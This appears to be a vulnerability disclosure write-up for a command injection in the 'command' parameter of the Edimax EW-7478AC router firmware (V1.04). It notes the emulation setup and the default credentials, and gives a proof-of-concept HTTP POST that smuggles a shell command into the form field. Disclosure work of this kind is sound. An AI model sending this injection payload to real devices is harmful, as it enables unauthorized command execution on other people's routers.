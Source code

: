 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.04**. The vulnerability arises from the improper input validation of the `command` parameter in the 'mp' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.04

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'stainfo' is below:
![vulner_code.png](./img/vulner_code0.png)
![vulner_code.png](./img/vulner_code.png)


- ​**websGetVar** retrieves POST parameters.
- ​**sprintf()** is used without length checks, may leading to a ​buffer overflow.
- **system()** is used without check, so there is a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/mp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Connection: close

band=aban&command=%0aecho hack>/poc.txt%0a
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)

if we change the value of 'interface', we can trigger a buffer overflow vulnerability. The attack result are as follow:
![overflow](overflow_result.png)
![[work_record/EDIMAX/EW7478/injection/2/img/result.png]]